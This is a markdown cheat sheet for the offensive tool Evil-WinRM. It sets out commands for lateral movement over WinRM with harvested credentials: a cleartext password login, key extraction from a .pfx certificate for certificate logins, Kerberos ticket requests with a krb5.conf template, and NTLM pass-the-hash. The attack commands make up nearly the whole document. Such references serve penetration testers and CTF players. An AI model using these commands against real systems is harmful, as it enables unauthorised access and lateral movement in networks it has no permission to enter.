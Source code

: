 # Evil-WinRM 

## Link: https://github.com/Hackplayers/evil-winrm

## Port: 5985 (Over HTTP) 5986 (Over HTTPS)

## TIP: Use -S flag to enable SSL. Use this when the WinRM port is 5986 (Over HTTPS)

### Do lateral movement via WinRM protocol using foudn credentials with evil-winrm

## Authentication Methods

#### 1) Clear text Password

 - evil-winrm -i TARGET_IP -u USERNAME -p PASSWORD

#### 2) Certificate (.pfx file)

     openssl pkcs12 -in USER_PFX_CERT.pfx -nocerts -out key.pem -nodes

       openssl pkcs12 -in USER_PFX_CERT.pfx -nokeys -out cert.pem

### After generating the private key from the .pfx file, we use Evil-WinRM to authenticate

    evil-winrm -i TARGET_IP -c CERT.pem -k KEY.pem

#### 3) Kerberos

    kinit USERNAME@DOMAIN.LOCAL (Authenticate and retrieve a ticket on Windows)
  
    impacket-getTGT DOMAIN.LOCAL/USERNAME:PASSWORD (Request a TGT ticket on Linux)

 Configure /etc/krb5.conf file with the appropriate settings (Replace some of the placeholders for your use case)

       [libdefaults]
        default_realm = DOMAIN.LOCAL
        ticket_lifetime = 24h
        renew_lifetime = 7d
        forwardable = true
        dns_lookup_realm = false
        dns_lookup_kdc = true

       [realms]
       DOMAIN.local = {
        kdc = IP or Hostname of KDC/Domain Controller
        admin_server = IP or Hostname of Admin Server
       }

       [domain_realm]
        .domain.local = DOMAIN.LOCAL
        domain.local = DOMAIN.LOCAL

### 

    evil-winrm -r DOMAIN.LOCAL -i DC.DOMAIN.LOCAL (Authenticate via kerberos)

#### 4) NTLM Authentication (Pass-the-Hash)

    evil-winrm -i TARGET_IP -u USER -H NTLM_HASH
